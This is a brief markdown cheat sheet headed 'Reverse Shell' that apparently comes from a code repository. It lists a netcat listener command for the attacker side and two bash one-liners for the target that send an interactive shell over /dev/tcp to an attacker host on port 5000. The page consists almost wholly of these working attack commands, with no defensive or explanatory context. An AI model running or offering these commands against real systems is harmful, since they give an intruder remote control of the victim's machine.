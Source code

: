 # Reverse Shell

## Attacker

```bash
nc -lnvp 5000
```

## Target

```bash
bash -i >& /dev/tcp/<attacker host>/5000 0>&1
bash -i >& /dev/tcp/attacker.porn/5000 0>&1
```
